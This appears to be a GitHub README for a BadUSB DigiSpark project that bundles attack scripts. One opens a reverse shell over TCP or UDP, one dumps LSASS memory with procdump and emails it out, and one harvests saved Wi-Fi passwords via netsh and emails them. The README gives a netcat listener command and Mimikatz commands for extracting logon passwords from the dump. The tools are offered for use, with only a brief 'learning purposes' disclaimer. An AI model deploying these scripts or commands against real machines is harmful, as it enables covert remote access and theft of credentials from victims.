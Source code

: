 # BadUSB-DigiSpark Keyboard #

Simple script for setting up a reversed shell over TCP or UDP and specific port.


## Before you start setup the listener on the remote host ##

~~~~
Run Netcat
~~~~
~~~~
# nc -ul -p 53
~~~~


You can also use powershell scripts see Powershell directory for the files or instructions below.


# Send-LSASS-Dump #

Started this script for a BadUSB Digispark project, script for retrieving lsass dump with sysinternals procdump tool.
Dump file is automatically send to an email address which can be configured in the variables.

## After receiving the dump file you can examine it and retreive the passwords. ##
~~~~
Run Mimikatz
~~~~
~~~~
mimikatz # sekurlsa::minidump lsass.dmp
~~~~
~~~~
mimikatz # sekurlsa::logonPasswords
~~~~

# Netsh-Ripper #

Started this script for a BadUSB Digispark project, script for retreiving wlan profile information and clear text passwords, started this script for a badUSB Digispark project.
Text file is automatically send to an email address which can be configured in the variables.

### Only use this for learning purposes. ###
